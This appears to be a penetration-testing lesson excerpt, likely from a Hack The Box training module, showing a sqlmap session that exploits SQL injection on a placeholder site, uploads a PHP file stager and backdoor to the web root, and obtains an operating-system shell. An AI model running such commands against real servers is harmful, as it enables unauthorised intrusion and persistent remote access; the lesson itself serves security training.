 ```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:05:59 /2020-11-19/

[18:05:59] [INFO] resuming back-end DBMS 'mysql'
[18:05:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

[18:06:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la

do you want to retrieve the command standard output? [Y/n/a] a

command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...

```
